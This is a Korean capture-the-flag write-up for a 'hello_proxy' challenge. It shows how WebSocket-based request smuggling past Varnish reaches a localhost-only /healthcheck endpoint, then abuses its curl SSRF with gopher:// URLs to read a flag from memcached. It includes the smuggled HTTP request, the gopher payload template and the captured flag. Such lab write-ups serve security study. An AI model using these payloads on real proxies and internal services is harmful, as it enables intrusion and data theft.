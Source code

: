 # hello_proxy

# Usage

# Concept

- Request Smuggling, SSRF

# Writeup

처음 docker-compose.yml 파일에서 fastapi 웹 어플리케이션, cache proxy인 varnish, cache db인 memcached, 총 3개의 서비스가 동작하는 것을 확인할 수 있다.

`app/main.py`에서 플래그를 환경 변수에서 불러와 memcached db에 저장한다. 여기서 최종 목표는 memcached db에 저장된 플래그를 읽는 것이라는 걸 알 수 있다.

```python
...
client = Client("memcached")
client.set("flag", FLAG)


@app.get("/")
def read_root():
    client.set("flag", FLAG)
    return {"Hello": "Proxy"}
...
```

`varnish/default.vcl`에서 sub vcl_recv 부분을 보면 `/healthcheck` 경로는 localhost로만 접근이 가능하게 필터링 되어 있다.

```vcl
...
sub vcl_recv {
    if ( req.url ~ "^/healthcheck" && !(client.ip ~ whitelist) ) {
        return (synth(403, "Forbidden"));
    }
}
...
```

이것을 우회하기 위해서는 Websocket을 통한 Request Smuggling 기법을 사용해야 한다.

varnish에서는 Websocket 통신을 할 떄, Websocket에서 Client와 Server가 제대로 연결되었는지 충분한 검증을 하지 않기 때문에 Server에서 4xx Response를 반환해도 Websocket 연결이 된 것으로 간주하고 TCP 연결이 지속된다.

따라서, 기존에는 접속이 불가능한 `/healthcheck`가 http임에도 불구하고 내부에서 tcp 통신하는 것처럼 localhost로 보내기 때문에 `/healthcheck` 엔드포인드에 접근이 가능해지게 된다.

```
GET /ws HTTP/1.1
Host: localhost
Upgrade: websocket

GET /healthcheck?check_url=gopher://memcached:11211/_{command} HTTP/1.1
Host: localhost
```

이후, `/healthcheck`에서 SSRF가 가능한 것을 알 수 있다. Curl을 사용하고 있기 때문에, gopher 프로토콜을 이용한 memcached SSRF가 가능하다. 한가지 주의할 점은 gopher payload에 quit을 넣어주지 않으면 버퍼가 끝나지 않기 때문에 request가 hang 걸려서 죽게 된다.

```python
@app.get("/healthcheck")
def healthcheck(check_url: str):
    if not check_url:
        return {"status": 400, "response": "Invalid URL"}

    try:
        print("healthcheck: ", check_url)
        c = pycurl.Curl()
        response_buffer = BytesIO()
        c.setopt(c.URL, check_url)
        c.setopt(c.WRITEDATA, response_buffer)
        c.perform()
        return {
            "status": c.getinfo(pycurl.RESPONSE_CODE),
            "response": response_buffer.getvalue().decode(),
        }
    except Exception as e:
        print(e)
        return {"status": 500, "response": "Error"}
```

gopher ssrf payload는 다음과 같다.

```python
req2 = f'''GET /healthcheck?check_url=gopher://memcached:11211/_{command} HTTP/1.1
Host: localhost

'''.replace('\n', '\r\n')
```

flag: `hspace{f8c7dd6f437f95725cd3dacb3403c9de}`
